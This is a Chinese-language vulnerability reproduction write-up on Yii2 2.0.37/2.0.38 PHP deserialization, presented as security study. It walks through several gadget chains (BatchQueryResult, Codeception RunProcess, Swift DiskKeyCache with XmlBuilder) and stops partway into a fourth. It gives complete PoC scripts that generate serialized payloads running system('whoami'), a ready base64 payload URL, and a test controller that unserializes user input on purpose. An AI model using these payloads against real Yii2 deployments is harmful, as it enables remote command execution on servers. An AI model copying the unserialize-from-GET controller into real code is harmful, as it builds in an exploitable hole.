# **Yii2反序列化漏洞复现**

php版本:7.3.4

yii版本:2.0.37和2.0.38

## **环境搭建**

 

源码下载：https://github.com/yiisoft/yii2/releases/tag/2.0.37

下载2.0.37的的[yii-basic-app-2.0.37.tgz](https://github.com/yiisoft/yii2/releases/download/2.0.37/yii-basic-app-2.0.37.tgz)

composer create-project yiisoft/yii2-app-basic=2.0.38 app

2.0.38也可以直接在GitHub什么下

解压到www目录下,然后修改/config/web.php文件17行cookieValidationKey,可以随便定义

 

配置好后,cmd中输入php yii serve

 

然后访问localhost:8080


站点创建成功

# 第一条链子

## **漏洞分析**

poc.php

```
<?php
namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'phpinfo';
            $this->id = '1';           //command
            // run() -> call_user_func($this->checkAccess, $this->id);
        }
    }
}

namespace Faker{
    use yii\rest\IndexAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters['close'] = [new IndexAction, 'run'];
            //reset方法里又调用了close()方法:$this->_dataReader->close();
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
?>
```

根据poc找到漏洞入口点在vendor/yiisoft/yii2/db/BatchQueryResult.php:line79-98

  

destruct函数调用同类中的reset()函数,reset函数中$this->dataReader可控,那我们就可以控制dataReader的值调用其他类中的close函数或者魔术方法__call,通过poc发现下一个链为Faker/Generator.php

 

跟进Generator.php

basic/vendor/fzaninotto/faker/src/Faker/Generator.php line:283-286

并没有可用的close方法,那就去寻找call

找到call方法

 

此时的method并不可控

跟进format函数

 

看到作用为回调一个无参函数`$this->getFormatter($formatter)`

跟进getFormatter函数:

判断是否存在`$this->formatters($formatter)`

如果存在则返回`$this->formatters($formatter)`,$formatter的值此时为close

此时的`$this->formatters(‘close’)`是可控的,所以我们就可以利用format函数中的`call_user_func_array()`函数去回调任意的无参函数

根据poc可以发现下一环是yii\rest\CreateActio.php的run方法

/vendor/yiisoft/yii2/rest/CreateAction.php

跟进run方法

 

是个无参函数

判断$this->checkAccess是否存在，存在则用call_user_func回调

发现两个参数`$this->checkAccess和$this->id`

全局搜索一下发现$checkAccess是rest/Action.php下定义的公共属性

$id是base/Action.php下定义的公共属性

那就好办了,是两个可控的参数,通过call_user_func()回调

这不就可以直接系统命令rce了?

其实这个文件夹下还有个IndexAction.php也存在一个无参的run方法能够调用进行rce

 

 

整体利用链如下：

1.yii\db\BatchQueryResult-> __destruct->rest

2.Faker\Generator->call->format->call_user_func_array

3.yii\rest\CreateAction->run-> call_user_func


其实如果close方法带有参数的话,可以不用再去寻找一个无参函数回调了

laravel5.4的反序列化洞就是这样的,可惜我目前也只看了那一个链子


## **漏洞复现**

因为这只是一条反序列化链还需要一个反序列化入口需要自己创建

先创建一个action:TestController.php在controller文件夹下作为反序列化的入口点

 

 

```
<?php

namespace app\controllers;

use Yii;
use yii\web\Controller;

class TestController extends Controller
{
    public function actionIndex(){
        $name = Yii::$app->request->get('test');
        return unserialize(base64_decode($name));    
    }

}
```

poc1

 

```
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess='system';
            $this->id='whoami';
        }
    }
}
namespace Faker{
    use yii\rest\CreateAction;
    class Generator{
        protected $formatters=array();
        public function __construct()
        {
            $this->formatters['close']=[new CreateAction,'run'];
        }
    }
}
namespace yii\db{
    use Faker\Generator;
    class BatchQueryResult{
        private $_dataReader;
        public function __construct()
        {
            $this->_dataReader=new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
```

访问一下

```
?r=test&test=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjE6InlpaVxyZXN0XENyZWF0ZUFjdGlvbiI6Mjp7czoxMToiY2hlY2tBY2Nlc3MiO3M6Njoic3lzdGVtIjtzOjI6ImlkIjtzOjY6Indob2FtaSI7fWk6MTtzOjM6InJ1biI7fX19fQ== 
```

 

 

# 第二条链子

## 漏洞分析

还是从__destruct方法入手

找到一个可用的__destruct方法在RunProcess.php

yii/vendor/codeception/codeception/ext/RunBefore.php



这里进入stopProcess()函数,这个函数里面会将`$this->processes`的值遍历给​`$process`,`$this->processes`的值是可控的,看到下面的`$process->isRunning()`,就和之前那一条链子是差不多的了,可用去找一个isRunning()函数,或者去寻找一个可用的call方法

我们就直接找到call方法就是了,还是第一条链子一样的,使用Generator.php的call方法后面就一模一样了

于是poc2.php如下

```
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'whoami';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            // 这里需要改为isRunning
            $this->formatters['isRunning'] = [new CreateAction(), 'run'];
        }
    }
}

namespace Codeception\Extension{
    use Faker\Generator;
    class RunProcess{
        private $processes;
        public function __construct()
        {
            $this->processes = [new Generator()];
        }
    }
}
namespace{
    // 生成poc
    echo base64_encode(serialize(new Codeception\Extension\RunProcess));
}
```

整体的利用链如下

1. Codeception\Extension\RunProcess->__destruct()->stopProcess()
2. Faker\Generator->call()->format()->call_user_func_array()
3. yii\rest\CreateAction->run()-> call_user_func()

## 漏洞复现

仍然需要添加入口点,我之前添加过,就不再演示了

直接用poc打



# 第三条链子

## 漏洞分析

yii/vendor/swiftmailer/swiftmailer/lib/classes/Swift/KeyCache/DiskKeyCache.php



`$this->keys`是可控的,那就可以执行到`$this->clearAll($nsKey)`调用clearAll()函数

跟进clearAll()



因为我们控制了`$this->keys`的值,那就可以控制`$nsKey和$itemKey`的值,这样是可以执行到`$this->clearKey($nsKey,$itemKey)`

跟进clearKey()



这里有个字符串拼接,并且`$this->path`也是可控的,那就可以去调用__toString()魔术方法

网上给了一个see.php文件路径是

`yii/vendor/phpdocumentor/reflection-docblock/src/DocBlock/Tags/See.php`

但是我还找到了个XmlBuilder.php,文件路径

`yii\vendor\codeception\codeception\src\Codeception\Util\XmlBuilder.php`



`$this->__dom__`是可控的,那就可以去调用saveXML()

又是去寻找call方法或者saveXML(),那就有回到了Generator.php的call方法来了

于是poc3如下

```
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'whoami';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters['saveXML'] = [new CreateAction(), 'run'];
        }
    }
}

namespace Codeception\Util{

    use Faker\Generator;

    class XmlBuilder{
        protected $__dom__;
        public function __construct()
        {
            $this->__dom__ = new Generator();
        }
    }
}
namespace{
    use Codeception\Util\XmlBuilder;
    class Swift_KeyCache_DiskKeyCache{
        private $keys = [];
        private $path;
        public function __construct()
        {
            $this->path = new XmlBuilder;
            $this->keys = array(
                "r"=>array("is"=>"handsome")//给$this->keys赋值只是为了代码往下执行,所以可以随便赋值
            );
        }
    }
    // 生成poc
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache()));
}
?>
```

## 漏洞复现



虽然报错了,但是也返回了whoami的结果

# 第四条链子

## 漏洞分析

其实这条链子和第一条链子的出发点是一样的

yii\vendor\yiisoft\yii2\db\BatchQueryResult.php


只是这里我们不是去寻找call方法,而且去找有没有可用的close()函数

在yii\vendor\yiisoft\yii2\web\DbSession.php下找到一个close()

